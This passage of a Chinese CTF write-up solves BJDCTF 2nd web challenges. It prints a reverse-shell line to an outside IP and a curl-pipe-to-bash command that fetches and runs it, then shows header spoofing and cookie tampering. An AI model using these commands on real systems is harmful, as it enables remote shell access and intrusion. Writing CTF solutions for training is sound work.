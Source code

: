 然后在www/html写一个文件a.txt：
`bash -i >& /dev/tcp/174.1.90.231/2333 0>&1`
nc监听端口2333`nc -lvp 2333`
最后curl即可`girl_friend=curl 174.1.90.231/a.txt|bash`
![](https://img-blog.csdnimg.cn/20200324131147421.png)
接下来寻找flag `find / -name flag`
![](https://img-blog.csdnimg.cn/20200324131758789.png)
最后cat即可`cat /etc/demo/P3rh4ps/love/you/flag`
![](https://img-blog.csdnimg.cn/20200324132030921.png)
## [BJDCTF 2nd]假猪套天下第一
这道题没什么思路，看wp发现先抓包，得到L0g1n.php
![](https://img-blog.csdnimg.cn/20200324132826692.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
访问
![](https://img-blog.csdnimg.cn/20200324132932940.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
~~然后等99年~~，抓包看看，修改cookie的time
![](https://img-blog.csdnimg.cn/20200324133730236.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
然后是本地访问，XFF不能用，但还可以用Client-IP或者X-Real-IP代替XFF
`Client-IP:127.0.0.1`
![](https://img-blog.csdnimg.cn/20200324133959583.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
要从gem-love.com访问，增加Referer
`Referer:gem-love.com`
![](https://img-blog.csdnimg.cn/20200324134249434.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
然后要使用Commodo 64访问，但是 UA 改成 Commodo 64 后被告诉这不是真的 commodo64，随便查一下就能发现有一种系统叫 Commodore，所以要改成 Commodore 64（也可以直接查它的 UA 的标准形式）~~抄一下~~
`"Contiki/1.0 (Commodore 64; http://dunkels.com/adam/contiki/)"`
![](https://img-blog.csdnimg.cn/20200324134643128.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
然后是email is root@gem-love.com
`From:root@gem-love.com`
![](https://img-blog.csdnimg.cn/20200324135115981.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
最后是use the http proxy of y1ng.vip
`Via:y1ng.vip`
![](https://img-blog.csdnimg.cn/20200324135405648.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
得到base64编码的flag，解码即可

## [BJDCTF 2nd]Schrödinger
难度迷惑可还行
首先查看源码得到test.php，由于是白色所以看不见
![](https://img-blog.csdnimg.cn/20200324164434519.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
发现是个登录页面，做题时没看到这个，看wp后缩小了才看到的。。。。。
![](https://img-blog.csdnimg.cn/20200324164637872.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
然后用之前给的界面进行爆破，抓包可以看到cookie有个base64编码的字符串
![](https://img-blog.csdnimg.cn/20200324165120641.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
解码得1585039815，是提交时的时间戳
![](https://img-blog.csdnimg.cn/20200324165245437.png)
直接将cookie置空试试
![](https://img-blog.csdnimg.cn/20200324170337410.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
真就变为了%99，迷惑
![](https://img-blog.csdnimg.cn/20200324170428171.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
check就可以得到av号了
![](https://img-blog.csdnimg.cn/20200324170708344.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
最后去b站看看是什么视频`av11664517`,北京大学量子力学。。。。。。